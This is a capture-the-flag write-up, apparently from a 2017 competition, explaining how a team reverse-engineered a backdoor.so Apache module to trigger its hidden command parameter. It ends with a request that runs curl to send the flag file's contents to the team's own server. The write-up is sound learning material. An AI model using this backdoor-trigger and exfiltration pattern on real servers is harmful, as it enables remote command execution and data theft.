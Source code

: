 Hello guys ,

So i will explain my team solution for this task 

It was really amazing task because its reverse + web so it need lot of knowledge to solve it

So first we check the task !

![capture d ecran 2017-10-19 a 11 23 25 am](https://user-images.githubusercontent.com/7364615/31766621-fdbd0a96-b4bf-11e7-9d15-05c19c028ec8.png)

Next we have backdoor.so library used with the apache server 

If we need to solve this should first understand the backdoor.so how it works


So it check first for GET\x00ndex.html 

![capture d ecran 2017-10-19 a 11 30 37 am](https://user-images.githubusercontent.com/7364615/31766872-f6d81eea-b4c0-11e7-86ee-08834d0567d4.png)

![capture d ecran 2017-10-19 a 11 31 12 am](https://user-images.githubusercontent.com/7364615/31766893-09930b80-b4c1-11e7-8ee6-dd843d21a15e.png)

OK so we need to send  https://indianer.flatearth.fluxfingers.net//x00ndex.html as first to make it all work 

then there is system function that get argument from url , but its not clear what name is this arg

so we make our prog to get the arg name 

![capture d ecran 2017-10-19 a 11 33 34 am](https://user-images.githubusercontent.com/7364615/31766979-60bdb798-b4c1-11e7-912d-2ab3d29b23aa.png)

and it was "dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp" So this is the second part 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=

what Next?

first what we tried to do it to understand where the flag will be shown

We tried first simple check like https://indianer.flatearth.fluxfingers.net/index.html_dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=ls

but for sure no output there :(

After some check we get that the '_' is replaced with ' '

So no need space here 

![capture d ecran 2017-10-19 a 11 37 02 am](https://user-images.githubusercontent.com/7364615/31767126-da3ef960-b4c1-11e7-91e3-776e15b18598.png)

Also flag will not shown here in the web part 

So if we make the flag redirected  somewhere it maybe will work 

So curl is the best solution , but we figure this out when the ctf already end :( and we didnt get any points for this task

Anyway it was Cool task to improve our skills 

Ok lets continue !

So we need curl? ok so we will send the flag to our server using curl 

So our last solution was to make this request and its work :D 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_serverip/`cat_/var/www/flag.txt`


![capture d ecran 2017-10-19 a 11 15 22 am](https://user-images.githubusercontent.com/7364615/31767276-57b35d0a-b4c2-11e7-8f09-1a162d4cc949.png)

No points but we did it :D 


Thanks 
